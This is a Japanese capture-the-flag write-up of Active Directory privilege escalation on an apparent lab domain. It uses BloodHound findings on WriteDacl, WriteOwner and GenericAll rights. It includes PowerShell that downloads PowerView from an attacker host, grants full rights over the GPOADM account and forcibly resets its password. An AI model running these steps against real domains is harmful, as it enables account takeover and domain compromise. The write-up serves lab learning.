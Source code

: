 BloodHoundのWriteDaclのInfo
- グループ[LEGACY@BABY2.VL](mailto:LEGACY@BABY2.VL)のメンバーは、ユーザー[GPOADM@BABY2.VL](mailto:GPOADM@BABY2.VL)のDACL(任意アクセス制御リスト)を変更する権限を持っています。
- 対象オブジェクトのDACLへの書き込みアクセス権があれば、そのオブジェクトに対して自分自身に任意の権限を付与することができます。

BloodHoundのWriteOwnerのInfo
- グループ[LEGACY@BABY2.VL](mailto:LEGACY@BABY2.VL)のメンバーは、ユーザー[GPOADM@BABY2.VL](mailto:GPOADM@BABY2.VL)の所有者を変更する能力を持っています。
- オブジェクトの所有者は、オブジェクトのDACLに設定されている権限に関係なく、オブジェクトのセキュリティ記述子を変更する能力を保持しています。
  

で、GPOADMは何ができるかをBloodHoundで見る
![](https://i.imgur.com/GwNewAR.png)
DEFAULT DOMAIN POLICYにGeneric All権限を持ってる
ということは、DEFAULT DOMAIN POLICYはドメイン内のすべてのコンピュータとユーザーに適用されるため、ポリシーを変更してドメイン全体を制御できる。具体的には、即座にログインスクリプトを追加して、ドメイン管理者権限でコマンドを実行させることが可能ということ

windows Abuseを見ると、PowerViewを使う必要があるとのこと
```sh
$url = 'http://10.10.16.15:8888/PowerView.ps1'
$dest = 'C:\Users\Amelia.Griffiths\Desktop\PowerView.ps1'
(New-Object System.Net.WebClient).DownloadFile($url, $dest)
Test-Path $dest
```

PowerView.ps1をダウンロード・インポート
```sh
PS C:\Users\Amelia.Griffiths\Desktop> ls


    Directory: C:\Users\Amelia.Griffiths\Desktop


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         10/8/2025   2:48 AM         770279 PowerView.ps1   
PS C:\Users\Amelia.Griffiths\Desktop> . .\PowerView.ps1
```

GPOADMのパスワードを強制変更する

自分自身にGenericAll権限を付与
```
PS C:\Windows\system32> Add-DomainObjectAcl -TargetIdentity GPOADM -PrincipalIdentity AMELIA.GRIFFITHS -Rights All
```

GPOADMのパスワードを「SuperPass123!」に変更
```PS
PS C:\Windows\system32> PS C:\Windows\system32> $NewPassword = ConvertTo-SecureString 'SuperPass123!' -AsPlainText -Force
PS C:\Windows\system32> Set-DomainUserPassword -Identity GPOADM -AccountPassword $NewPassword
```

